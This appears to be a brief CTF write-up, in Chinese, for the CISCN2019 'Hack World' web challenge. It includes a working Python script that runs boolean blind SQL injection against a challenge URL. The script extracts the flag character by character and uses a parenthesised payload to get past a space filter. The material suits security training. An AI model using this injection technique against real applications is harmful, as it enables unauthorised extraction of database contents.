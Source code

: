 #SQL 注入 #盲注

输入 1 2 有回显 ，其余数字不行，尝试注入（注释符号，绕过空格）提示 `SQL Injection Checked.` 输入一些符号提示回显 `bool(false)`
尝试盲注

```python
import string
import requests

url = "http://node4.anna.nssctf.cn:28756/index.php"
res = ""
for i in range(1, 60):
    for j in string.printable:
        sql = "if(ascii(substr((select(flag)from(flag)),{0},1))={1},1,2)".format(
            i, ord(j)
        )
        post = {"id": sql}
        result = requests.post(url=url, data=post)
        if "Hello" in result.text:
            res += j
            print(res)
            break

```

[[CISCN2019 华北赛区 Day2 Web1]Hack World\_沫忆末忆的博客-CSDN 博客](https://blog.csdn.net/qq_45691294/article/details/108709683)
